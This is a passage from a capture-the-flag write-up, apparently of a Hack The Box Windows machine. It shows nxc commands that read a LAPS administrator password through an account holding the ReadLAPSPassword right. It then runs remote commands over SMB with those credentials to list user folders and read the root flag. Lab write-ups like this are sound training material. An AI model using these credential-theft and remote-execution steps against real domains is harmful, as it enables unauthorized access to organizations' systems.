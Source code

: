 <figure><img src="../../.gitbook/assets/timelapse_laps_priv (1).png" alt=""><figcaption><p>Figure 11: BloodHound reveals the <code>ReadLAPSPassword</code> right of the <code>svc_deploy</code> account.</p></figcaption></figure>

We can use this right away, read the LAPS password and try to read the root flag (Figure 12).

{% code overflow="wrap" %}
```bash
# read the laps password
nxc ldap 10.10.11.152 -u svc_deploy -p svc_deploy_pass -M laps
# grab the root flag
nxc smb 10.10.11.152 -u administrator -p dc01_pass -x 'type c:\users\administrator\desktop\root.txt'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/timelapse_laps_pass_root_flag.png" alt=""><figcaption><p>Figure 12: Reading the LAPS password and trying to snatch the root flag.</p></figcaption></figure>

Surprisingly, the `root.txt` file is not in its usual place! Looking for other user directories under `c:\users`, we can find the `TRX` account and the root flag 🚩lying on its `desktop` (Figure 13).&#x20;

{% code overflow="wrap" %}
```bash
# check for other users
nxc smb 10.10.11.152 -u administrator -p dc01_pass -x 'dir c:\users\'
# read the root flag
nxc smb 10.10.11.152 -u administrator -p dc01_pass -x 'type c:\users\TRX\desktop\root.txt'
```
{% endcode %}
